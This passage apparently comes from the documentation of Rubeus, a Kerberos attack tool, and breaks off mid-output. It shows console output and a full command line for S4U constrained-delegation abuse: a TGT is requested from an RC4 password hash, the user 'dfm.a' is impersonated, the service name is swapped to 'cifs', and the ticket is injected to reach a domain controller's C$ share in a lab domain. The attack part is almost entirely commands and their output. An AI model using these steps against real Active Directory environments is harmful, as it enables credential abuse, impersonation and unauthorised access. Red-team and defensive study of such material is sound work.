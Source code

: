       v1.0.0

    [*] Action: S4U

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building S4U2self request for: 'TESTLAB.LOCAL\patsy'
    [*]   Impersonating user 'dfm.a' to target SPN 'ldap/primary.testlab.local'
    [*]   Final ticket will be for the alternate service 'cifs'
    [*] Sending S4U2self request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1437 bytes
    [*] Received 1574 bytes
    [+] S4U2self success!
    [*] Building S4U2proxy request for service: 'ldap/primary.testlab.local'
    [*] Sending S4U2proxy request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 2618 bytes
    [*] Received 1798 bytes
    [+] S4U2proxy success!
    [*] Substituting alternative service name 'cifs'
    [*] base64(ticket.kirbi):

          doIGujCCBragAwIBBaEDAgE...(snip)...

    [*] Action: Import Ticket
    [+] Ticket successfully imported!

Alternatively using a /user and /rc4 :

    C:\Temp\tickets>dir \\primary.testlab.local\C$
    The user name or password is incorrect.

    C:\Temp\tickets>Rubeus.exe s4u /user:patsy /domain:testlab.local /rc4:602f5c34346bc946f9ac2c0922cd9ef6 /impersonateuser:dfm.a /msdsspn:LDAP/primary.testlab.local /altservice:cifs /ptt

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.0.0

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 602f5c34346bc946f9ac2c0922cd9ef6
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\patsy'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 230 bytes
    [*] Received 1377 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):
